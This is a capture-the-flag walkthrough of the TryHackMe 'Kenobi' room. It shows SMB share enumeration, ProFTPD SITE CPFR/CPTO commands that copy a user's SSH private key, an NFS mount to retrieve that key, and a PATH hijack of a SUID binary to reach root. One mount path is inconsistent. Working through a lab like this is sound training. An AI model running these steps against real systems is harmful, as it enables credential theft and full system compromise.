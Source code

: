 # TryHackMe Room: Kenobi

# Date:
    06/13/2025

## Objective 
This is a walkthrough on exploiting a linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate privileges with apth variable manipulation 

## Recon:
### Nmap scan
```bash
nmap -T4 -sC -sV [target]
```

There are seven ports open in the machine.
I believe that I'm really interested in this one 

```bash
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```
Because of the given description for this room. 


## Enumerate Samba for shares 

According to the room, we can use nmap for enumerating the machine for SMB shares.

Nmap has the ability to run to automate a wide variety of networking tasks. There is a script to enumerate shares

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse [target]
```
3 shares have been found using that command against the target system.

Account used: guest

Shares are: IPC, anonymous, and print

## To inspect the SMB shares
```bash
smbclient //[target]/anonymous
```
Once I was connected, I had to list the files I could see
I could only see log.txt

## Gain initial access with ProFtpd
ProFtpd is a free open-source FTP server with Unix and Windows sysmte. It has vulnerabilities to it. 

I used netcat to see which version is running on the ftp server
```bash
nc [target] 21
```
Then searchsploit for that vulnerability

Found multiple exploits that can be  used. The room told me to netcat back into the FTP port, and copy the SSH, RSA key from kenobi through these commands

```bash
SITE CPFR /home/kenobi/.ssh/id_rsa

SITE CPTO /var/tmp/id_rsa
```

Then mount the value of the key to a directory in my local machine

Run in sudo
```bash
mkdir /mnt/kenobiNFS
mount [target]:/var /mnt/kenobiNFS

ls -la /tmp/kenobiNFS
```
Now we copy the rsa key vlaue and use it for logging in

```bash
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@[target]
```

Found the user flag in kenobi@kenobi

## Privilege escalation with Path Variable Manipulation

This room starts off with talking about what SUID, SGID, and sticky bits are 

SUID Bit: User executes the file with permissions of the file owner

SGID Bit: User executes the file with the permission of the group owner. For directories, file created in directory gets the same group owner 

Sticky Bit: For files, it has no meaning but for directories it prevents the user from deleting files from other users. 

Do this in the /tmp folder

```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

This manipulates the file path and gets your root user.

Found the root flag in /root

